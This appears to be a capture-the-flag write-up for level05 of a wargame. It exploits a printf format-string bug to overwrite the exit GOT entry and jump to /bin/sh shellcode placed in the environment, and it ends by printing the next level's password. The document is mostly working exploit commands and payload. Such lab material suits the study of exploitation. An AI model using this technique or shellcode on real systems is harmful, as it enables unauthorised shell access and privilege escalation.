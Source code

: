 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :

- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  

### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
level05@OverRide:~$ objdump -R level05 

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main

```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

Our nopesled spans from 0xffffddae to 0xffffdfae, so we target the middle 0xffffdeae.

### step5: exploit printf overflow vulnerability

- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- char `a` value is 61
- We then find that printf argument position is at 10th position

- The shellcode address(0xffffdeae) in decimal is 4294958766 

- Our number of bytes to be printed(4294958766) is too big to be printed in a single destintation 
=> we need to split the bytes in two addresses :

exit addresss : \xe0\x97\x04\x08
\xe0\x97\x04\x08 + 2 = 0x080497e0 + 2 = \xe2\x97\x04\x08

we split our shellcode address in the two adresses :
0xffffdeae => 0xffff + 0xdeae

decimal values :
0xffff => 65535
0xdeae => 57006 

first value is : 57006 - 8 = 56998

second value is : 65535 - 56998 - 8 = 8529

- The exploit string will be formatted like that : 
`<destination addr> + <destination addr + 2> + %<value in decimal2 - 2 two addresses length (8)>d + %10$n + %<value in decimal1 - value in decimal2 - 2 two addresses length (8)>d + %11$n` :
`"\xe2\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn"`

- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998d" + "%10$hn" + "%8529d" + "%11$hn")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```


And we can get the flag !
```
whoami
level06
cat /home/users/level06/.pass
```
=>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
